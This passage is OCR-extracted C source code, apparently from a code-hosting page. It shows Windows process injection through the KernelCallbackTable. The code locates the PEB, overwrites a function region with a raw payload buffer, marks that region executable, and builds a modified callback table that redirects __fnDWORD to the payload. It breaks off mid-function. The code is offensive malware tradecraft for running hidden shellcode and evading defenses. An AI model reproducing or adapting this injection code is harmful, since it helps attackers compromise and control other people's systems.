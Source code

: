 ```
PssSuccess = PssCaptureSnapshot(
    TargetProcess,
    PSS_QUERY_PROCESS_INFORMATION,
    NULL,
    &SnapshotHandle);
if (PssSuccess != ERROR_SUCCESS) {
    printf("[!] PssCaptureSnapshot failed: Win32 error %d \n", GetLastError());
    return FALSE;
}
PssSuccess = PssQuerySnapshot(
    SnapshotHandle,
    PSS_QUERY_PROCESS_INFORMATION,
    &PI,
    sizeof(PSS_PROCESS_INFORMATION)
);
if (PssSuccess != ERROR_SUCCESS) {
    printf("[!] PssQuerySnapshot failed: Win32 error %d \n", GetLastError());
    return FALSE;
}
if (PI.PebBaseAddress == NULL) {
    printf("[!] PI.PebBaseAddress IS NULL \n");
    return FALSE;
}
else {
    //ReadProcessMemory(TargetProcess, PI.PebBaseAddress, &peb, sizeof(peb), &lpNumberOfBytesRead);
    RtlMoveMemory(&peb, PI.PebBaseAddress, sizeof(PEB));
    if (peb.KernelCallbackTable == 0){
        printf("[!] KernelCallbackTable is NULL : Win32 error %d \n", GetLastError());
        return FALSE;
    }
    else {
        memcpy(&kct, peb.KernelCallbackTable, sizeof(kct));
        printf("[i] [BEFORE]kct.__fnDWORD : %0-16p \n", (void*) kct.__fnDWORD);
        if (Clean ==  TRUE){
            //ReadProcessMemory(TargetProcess, WMIsAO_ADD, &Buffer, Size, &lpNumberOfBytesRead);
            RtlMoveMemory(&Buffer, WMIsAO_ADD, Size);
            if (Buffer == NULL) {
                printf("[!] Buffer is NULL: Win32 error %d \n", GetLastError());
                return FALSE;
            }
        }
        Success = VirtualProtect(WMIsAO_ADD, Size, PAGE_READWRITE, &Old);
        if (Success != TRUE) {
            printf("[!] [1] VirtualProtect failed: Win32 error %d \n", GetLastError());
            return FALSE;
        }
 
        memcpy(WMIsAO_ADD, rawData, Size);
 
        Success = VirtualProtect(WMIsAO_ADD, Size, PAGE_EXECUTE_READWRITE, &Old);
        if (Success != TRUE) {
            printf("[!] [2] VirtualProtect failed: Win32 error %d \n", GetLastError());
            return FALSE;
        }
        printf("[i] WMIsAO_ADD : %0-16p \n", (void*)WMIsAO_ADD);
 
 
        memcpy(&Newkct, &kct, sizeof(KERNELCALLBACKTABLE));
        Newkct.__fnDWORD = (ULONG_PTR)WMIsAO_ADD;
 
        pNewkct = VirtualAlloc(NULL, sizeof(KERNELCALLBACKTABLE), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        memcpy(pNewkct, &Newkct, sizeof(KERNELCALLBACKTABLE));
```